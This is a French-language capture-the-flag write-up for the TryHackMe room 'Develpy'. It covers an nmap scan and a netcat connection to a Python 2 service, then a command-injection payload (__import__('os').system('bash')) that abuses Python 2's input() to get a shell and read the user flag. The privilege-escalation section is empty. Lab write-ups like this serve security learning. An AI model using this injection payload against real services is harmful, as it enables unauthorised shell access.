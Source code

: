 # Develpy-Write-up
Write-up Room Develpy Tryhackme


Cliquez [ici](https://tryhackme.com/room/bsidesgtdevelpy) pour accéder au room.

# Première étape : Identifier la cible et ses vulnérabilités.

On commence par un scan de port avec nmap.

```bash

nmap -sS -A -Pn [IP]
```


![](img/Develpy_scan.png?raw=true) 

On voit q'au niveau du port 10000 il y a un petit script python qui tourne.
On se connecte au serveur sur ce port pour voir ce que ça donne.


```bash

nc [IP] 10000
```
![](img/Develpy_nc0.png?raw=true)

>Ce script est écrit en python mais dans quelle version de python?
>On voit aussi que le module input est utilisé.
>S'il s'agit de python2 ,alors les commandes qu'on enverra au module input seront exécutées car le module input de python2 est vulnérable.

# Deuxième étape : exploitation de vulnérabilité

Dans ce cas c'est bien python2 qui est utilisé.

```python
__import__('os').system('bash')
```
La commande marche bien à merveille.

![](img/Develpy_nc.png?raw=true)

On est mainténant loggé sur le user king.

```bash
cat user.txt
```
Avec la commande ci-dessus on a le premier flag.


# Troisième étape : Escalade de privilège

